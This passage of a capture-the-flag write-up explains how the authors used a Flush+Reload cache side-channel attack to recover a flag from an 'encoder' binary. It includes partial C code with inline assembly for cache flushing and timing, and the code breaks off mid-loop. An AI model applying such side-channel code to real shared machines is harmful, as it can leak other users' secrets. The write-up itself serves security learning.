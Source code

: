 To test our attacks we bought a one core machine at a hosting service. We also
modified the flag in the `encoder` binary to be `CTF-BR{AA..AA}`. This helped
a lot in figuring out the first steps.

The first part of our solution was to find out which characters are being used
in the flag.

An important observation is, that thanks to the way the `emojiLib` list is 
structured each character/emoji corresponds to one cache line.

To find that out we wrote a program, which does a flush and reload for each letter
in the given alphabet.

```c
#include <stdio.h>
#include <assert.h>
#include <stdint.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <unistd.h>
#include <string.h>

// #define ITERATIONS 192000
#define ITERATIONS 90000
#define LIB_OFFSET 0x4380
#define NUM_CHARS  (127 - 0x2d)

void *getEmojis();

__attribute__((naked))  void clflush(volatile void *p) {
    asm volatile (  "mfence;"
                    "clflush [rdi];"
                    "mfence;"
                    "ret" :::);
}

__attribute__((naked)) uint64_t time_foo(volatile void *p){
    asm volatile( 
        "push rbx;"
        "mfence;"
        "xor rax, rax;"
        "mfence;"       
        "rdtscp;"         // before
        "mov rbx, rax;"
        "mov rdi, [rdi];" // RELOAD
        "rdtscp;"         // after
        "mfence;"    
        "sub rax, rbx;"   // return after - before
        "pop rbx;"
        "ret;" :::
    );
}

int pseudo_sleep(size_t iter){
    for (size_t i = 0; i < iter; i++);
    return 0;
}

int main(int argc, char **argv) {
    void *emojilib = getEmojis();

    uint64_t deltas[ITERATIONS];

    for (int i = 0; i < ITERATIONS; i++){
        clflush(emojilib + LIB_OFFSET); // FLUSH
        pseudo_sleep(10000);
```